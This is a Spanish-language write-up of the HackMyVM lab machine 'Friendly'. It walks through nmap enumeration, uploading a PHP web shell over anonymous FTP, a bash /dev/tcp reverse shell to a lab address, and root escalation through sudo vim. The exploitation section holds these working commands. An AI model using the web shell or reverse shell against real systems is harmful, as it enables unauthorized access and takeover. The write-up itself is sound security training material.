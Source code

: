 ```yaml
---
title: 'Friendly'
date: 2024-01-28T12:47:48-03:00
permalink: /posts/hackmyvm/:title/
categories: ["Writeups", "HackMyVm"]
tags: ['Linux', 'ftp', 'Anonymous user', 'sudo', 'vim']
image:
  path: /assets/img/hmvm/friendly/friendly-0.png
---
```


En este artículo, abordaremos la resolución de la máquina [Friendly](https://hackmyvm.eu/machines/machine.php?vm=Friendly) de la plataforma HackMyVM. La máquina presenta un servicio FTP, al cual accedemos utilizando el usuario `anonymous`, que cuenta con la capacidad de cargar archivos en el servidor. Aprovechando esta funcionalidad, conseguimos cargar un archivo con extensión `.php` y logramos que sea interpretado por el servidor web Apache que se encuentra en ejecución en el puerto 80. De esta manera, logramos obtener acceso al sistema al ejecutar una reverse shell. Para culminar, explotamos una configuración inadecuada de `sudo` para elevar nuestros privilegios, logrando así una exitosa escalada de privilegios.

## Reconocimiento

Comenzamos lanzando una traza ICMP a la máquina objetivo para comprobar que tengamos conectividad.

![Friendly](/assets/img/hmvm/friendly/friendly-1.png)
_Reconocimento usando el comando ping_

Vemos que responde al envio de nuestro paquete, verificando de esta manera que tenemos conectividad. Por otra parte, confirmamos que estamos frente a una máquina Linux basandonos en el TTL (Time To Live).

## Enumeración

### Descubrimiento de puertos abiertos
Realizamos un escaneo con nmap para descubrir que puertos TCP se encuentran abiertos en la máquina víctima.

```bash
nmap -sS -p- --open --min-rate 5000 -Pn -n 10.10.10.15 -oG scanPorts -vvv
```

![Friendly](/assets/img/hmvm/friendly/friendly-2.png)
_Descubrimiento de puertos abiertos_

Parámetros utilizados:

- `-sS`: Realiza un TCP SYN Scan para escanear de manera sigilosa, es decir, que no completa las conexiones TCP con los puertos de la máquina víctima.
- `-p-`: Indica que debe escanear todos los puertos (es igual a `-p 1-65535`).
- `--open`: Solo considerar puertos abiertos.
- `--min-rate 5000`: Establece el número mínimo de paquetes que nmap enviará por segundo.
- `-Pn`: Desactiva el descubrimiento de host por medio de ping.
- `-vvv`: Activa el modo _verbose_ para que nos muestre resultados a medida que los encuentra.
- `-oG`: Determina el formato del archivo en el cual se guardan los resultados obtenidos. En este caso, es un formato _grepeable_, el cual almacena todo en una sola línea. De esta forma, es más sencillo procesar y obtener los puertos abiertos por medio de expresiones regulares, en conjunto con otras utilidades como pueden ser grep, awk, sed, entre otras.

### Enumeración de versión y servicio

Lanzamos una serie de script básicos de enumeración propios de nmap, para conocer la versión y servicio que esta corriendo bajo los puertos abiertos.

```bash
nmap -sCV -p22,80 10.10.10.15 -oN targeted -vvv
```

![Friendly](/assets/img/hmvm/friendly/friendly-3.png)
_Descubrimiento de versión y servicio con nmap_

Parámetros utilizados:

- `-sCV` Es la combinación de los parámetros `-sC` y `-sV`. El primero determina que se utilizarán una serie de scripts básiscos de enumeración propios de nmap, para conocer el servicio que esta corriendo en dichos puertos. Por su parte, el segundo parámetro permite conocer más acerca de la versión de ese servicio.
- `-p-`: Indica que debe escanear todos los puertos (es igual a `-p 1-65535`)
- `-oN`: Determina el formato del archivo en el cual se guardan los resultados obtenidos, junto con el nombre del archivo `targeted`. En este caso, utiliza el formato por defecto de nmap.
- `-vvv`: Activa el modo _verbose_ para que nos muestre resultados a medida que los encuentra.
`

## Explotación

### FTP - `Anonymous`

Como observamos en el escaneo anterior, el servicio `ftp` permite acceder con el usuario `anonymous`. En este caso, debemos ingresar como contraseña `anonymous@10.10.10.15`.
Al listar el contenido, nos encontramos con un archivo `index.html` el cual nos descargamos para ver su contenido.

![Friendly](/assets/img/hmvm/friendly/friendly-4.png)
_FTP - Descarga de index.html_

Si miramos el contenido del fichero `index.html`, vemos que se corresponde con el tipico archivo de una instancia de Apache.

![Friendly](/assets/img/hmvm/friendly/friendly-5.png)
_Fichero index.html_

Al ingresar al sitio web que esta corriendo bajo el puerto 80, nos encontramos con la página por defecto de una instancia de Apache, lo cual nos hace pensar que es el mismo archivo que nos descargamos.
En otras palabras, tenemos acceso al servidor web por medio de ftp.

![Friendly](/assets/img/hmvm/friendly/friendly-6.png)
_Web por defecto Apache_

Intentos subir un archivo con extensión `.php` para ver si el servidor interpreta este lenguaje.

```php
<?php
# shell.php
system($_GET['cmd']);
```

![Friendly](/assets/img/hmvm/friendly/friendly-7.png)
_Subida de fichero shell.php_

Si accedemos desde el navegador al archivo `shell.php`, vemos que efectivamente se esta interprentado el código `php`, lo que nos concede la capacidad de ejecutar comandos..

![Friendly](/assets/img/hmvm/friendly/friendly-8.png)
_POC shell.php_

### Reverse shell - `www-data`

Conociendo que tenemos capacidad de ejecución de comandos, ganemos acceso al sistema a través de una reverse shell.

En primer lugar, nos ponemos en escucha con netcat `nc` por el puerto `4444`.

![Friendly](/assets/img/hmvm/friendly/friendly-9.png)
_nc_

Ejecutamos la reverse shell.

```bash
bash -c 'bash -i >%26 /dev/tcp/10.10.10.5/4444 0>%261'
```

![Friendly](/assets/img/hmvm/friendly/friendly-10.png)
_Reverse Shell_

De esta forma, ganamos acceso al sistema.

![Friendly](/assets/img/hmvm/friendly/friendly-11.png)
_nc_

Hacemos un tratamiento de la tty para tener una terminal más interactiva:

- `script /dev/null -c bash`
- CTRL + Z
- `stty raw -echo; fg`
- `reset xterm`
- `export TERM=xterm`
- `export SHELL=bash`
- `stty rows <rows> columns <columns>`

Y ya podemos leer el flag de `user.txt`.

![Friendly](/assets/img/hmvm/friendly/friendly-12.png)
_user.txt_

## Escalación de privilegios

### Enumeración del sistema

Luego de realizar una enumeración básica del sistema, vemos que el usuario `RiJaba1` puede ejecutar con `sudo` y sin solicitar contraseña el binario `vim`.

Si hacemos una búsqueda en GTFOBins, podemos ver que existen varias alternativas de poder escalar nuestros privilegios en este contexto [GTFOBins - vim](https://gtfobins.github.io/gtfobins/vim/#sudo), en este caso, usare la primera de ellas.

![Friendly](/assets/img/hmvm/friendly/friendly-13.png)
_sudo -l_

![Friendly](/assets/img/hmvm/friendly/friendly-14.png)
_GTFOBins - vim_

De esta manera, escalamos nuestros privilegios.

![Friendly](/assets/img/hmvm/friendly/friendly-15.png)
_Shell como root_

Pero aún no encontramos el flag de `root`, ya que como indica el mensaje debemos buscar otro archivo `root.txt`.

![Friendly](/assets/img/hmvm/friendly/friendly-16.png)
_root.txt_

Para lo cual, podemos hacer uso del comando `find`.

```bash
find / -name root.txt 2>/dev/null
```

Una vez que encontramos el archivo, podemos leer su contenido.

![Friendly](/assets/img/hmvm/friendly/friendly-17.png)
_root.txt_

De esta forma, llegamos al final del Write-up de la máquina Friendly.

Como siempre, espero que los conceptos hayan quedado claros. Si has llegado hasta este punto y aún tienes dudas, te recomiendo volver a realizar la máquina.

Gracias por tu lectura!

Happy Hacking!

